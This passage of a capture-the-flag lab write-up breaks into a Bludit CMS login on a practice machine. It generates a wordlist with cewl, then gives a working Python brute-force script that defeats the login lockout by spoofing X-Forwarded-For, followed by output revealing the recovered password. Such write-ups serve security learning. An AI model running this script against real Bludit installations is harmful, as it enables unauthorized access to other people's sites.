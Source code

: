 We got an user (`fergus`) but no password.
We use [cewl](https://github.com/digininja/CeWL) to generate a list of word from
the website. As mentioned earlier there is two offsite links so we configure
`cewl` to just parse our page with `-d 1`. Also we want to save the password in
a file `pass` with the `-w` option.

    :::text
    cewl -d 1 http://10.10.10.191 -w pass

We quickly rewrite the POC in order to load the passwords from our `pass` file.

    :::python
    #!/usr/bin/env python3
    import re
    import requests

    host = 'http://10.10.10.191'
    login_url = host + '/admin/login'
    username = 'fergus'

    f = open("pass", "r")

    for p in f:
        password = p.strip()
        session = requests.Session()
        login_page = session.get(login_url)
        csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

        print('[*] Trying: {p}'.format(p = password))

        headers = {
            'X-Forwarded-For': password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }

        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password,
            'save': ''
        }

        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

        if 'location' in login_result.headers:
            if '/admin/dashboard' in login_result.headers['location']:
                print()
                print('SUCCESS: Password found!')
                print('Use {u}:{p} to login.'.format(u = username, p = password))
                print()
                break

We run the script and found the password `RolandDeschain`.

    :::text
    $python3 bludit_auth_bypass.py
    [*] Trying: Load
    [*] Trying: Plugins
    [*] Trying: and
    <SNIP>
    [*] Trying: best
    [*] Trying: fictional
    [*] Trying: character
    [*] Trying: RolandDeschain

